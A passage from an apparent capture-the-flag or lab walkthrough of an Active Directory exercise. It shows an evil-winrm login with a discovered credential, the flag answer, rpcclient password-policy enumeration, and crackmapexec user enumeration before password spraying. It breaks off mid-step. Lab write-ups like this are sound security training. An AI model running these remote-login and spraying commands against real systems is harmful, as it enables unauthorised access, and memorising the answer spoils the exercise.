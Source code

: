 We get the IP of the machine MS01: `172.16.7.50`

Use `evil-winrm` to login to the machine MS01 with the credential `AB920:weasal` and get the flag

```zsh
evil-winrm -i 172.16.7.50 -u AB920 -p weasal
```

![](../imgs/Lab/Lab28/7.png)

- **Answer:** aud1t_gr0up_m3mbersh1ps!

![](../imgs/Lab/Lab28/8.png)

## **Use a common method to obtain weak credentials for another user. Submit the username for the user whose credentials you obtain.**

**Enumerate Password Policy**

```zsh
rpcclient -U "AB920" 172.16.7.3
rpcclient $> getdompwinfo    
```

![](../imgs/Lab/Lab28/9.png)

The password policy is weak as the minimum password length is 1

**Trying Internal Password Spraying**

Enumerate valid users

```zsh
sudo crackmapexec smb 172.16.7.3 --users -u AB920 -p weasal > users.txt
cat users.txt | awk '{ print $5 }' | cut -d '\' -f2 > valid_users.txt
```
